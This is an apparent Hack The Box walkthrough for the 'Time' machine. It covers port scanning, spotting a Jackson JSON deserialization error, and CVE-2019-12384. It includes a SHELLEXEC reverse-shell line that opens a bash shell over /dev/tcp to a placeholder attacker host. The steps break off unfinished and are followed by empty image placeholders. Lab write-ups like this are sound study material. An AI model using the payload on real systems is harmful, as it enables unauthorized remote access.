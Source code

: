 ```yaml
---
layout: page
title: Time
description: Write-up
dropdown: HTB-BOXES
priority: 2
---
```

# Time Walkthrough
![](https://i.ibb.co/pP4vK3F/image.png)



# []()Methodology

* Nmap scan.
* Web enumertation.
* Lua code injection vulnerability.
* Getting reverse shell.
* Enumerate luanne.
* Getting id_rsa for a user.
* ssh connecting.
* Privilege escalation.
* RooTed.

## Nmap Scan:

**I just found 22 for ssh and 80 for http web page**


![](https://i.ibb.co/rGkP8zJ/image.png)

### Let's start with the Web Page:

**It's an online JSON beautifier and validator.**

![](https://i.ibb.co/GWKXZz3/image.png)

> * I tried to find SQLi, But while i was fired up my Burp suit i found that interesting error. 

![](https://i.ibb.co/H77fsKh/image.png)

> **I searched google about (unhandled java exception com.fasterxml.jackson.core.jsonparseexception), After 15 minutes of search i realized that is a JSON deserialization, And i found a CVE-2019-12384, It's Famous about Jackson Rce For CVE-2019-12384.**


> **This [CVE](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-12384) allow attacker to get RCE, By FasterXML jackson-databind 2.x before 2.9.9.1 might allow attackers to have a variety of impacts by leveraging failure to block the logback-core class from polymorphic deserialization. Depending on the classpath content, remote code execution may be possible.**


##### Hackers logic if there is a CVE, Find its Exploit.

* I found this [Exploit](https://github.com/jas502n/CVE-2019-12384), But for some reason it didn't work with me.
* The i found [This](https://www.programmersought.com/article/77146841082/), I will use the RCE part with reverse shell.

> **In simple steps:**
1. Add inject.sql file to your machine.
2. get your bash execution for the reverse shell [(CALL SHELLEXEC('bash -i &>/dev/tcp/YOUR_PORT/YOUR_NC_LISTNER_PORT 0>&1 &'))] 
3. Fired up your http server for port 8000 to upload inject.sql for our attacking box (Time).
4. 



![]()
![]()
![]()
![]()
![]()
![]()
![]()
![]()
![]()
![]()
![]()
![]()
![]()
![]()
![]()
![]()
![]()
![]()
![]()
![]()
![]()
![]()
![]()
![]()
![]()
![]()
![]()
![]()
![]()
![]()
![]()
![]()
